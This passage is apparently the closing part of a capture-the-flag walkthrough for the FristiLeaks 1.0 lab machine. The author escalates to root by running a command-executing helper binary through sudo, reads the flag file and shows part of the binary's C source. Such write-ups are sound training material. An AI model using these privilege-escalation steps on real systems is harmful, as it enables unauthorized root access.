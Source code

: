 #### Running doCom with sudo -u:

```bash
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
Usage: ./program_name terminal_command ...
```

So the output denotes that it takes a terminal command as a positional argument. Okay, let's try giving it a command:

```bash
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom id
uid=0(root) gid=100(users) groups=100(users),502(fristigod)
```

Oh sweet, we have a UID of 0. Let's simply `su` to root:

```bash
bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom su root
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom su root
[root@localhost fristigod]# id && whoami
id && whoami
uid=0(root) gid=0(root) groups=0(root)
root
[root@localhost fristigod]# 
```

And that's it! Rooted!

```bash
[root@localhost ~]# cat fristileaks_secrets.txt
cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1
``` 

Also, if you're curious why the `doCom` binary gives us the root UID instead of `fristi`'s UID, we can see via the source code:

```c
cat doCom.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MAX_CMN_LEN 100

int main(int argc, char *argv[])
{
    char cmd[MAX_CMN_LEN] = "", **p;
    int userID;
    userID = getuid();
    if (userID != 503 )
    {
        fprintf(stderr,"Nice try, but wrong user ;)\n");
        exit(EXIT_FAILURE);
    }
    if (argc < 2) /*no command specified*/
    {
        fprintf(stderr, "Usage: ./program_name terminal_command ...");
        exit(EXIT_FAILURE);
    }
    else
```
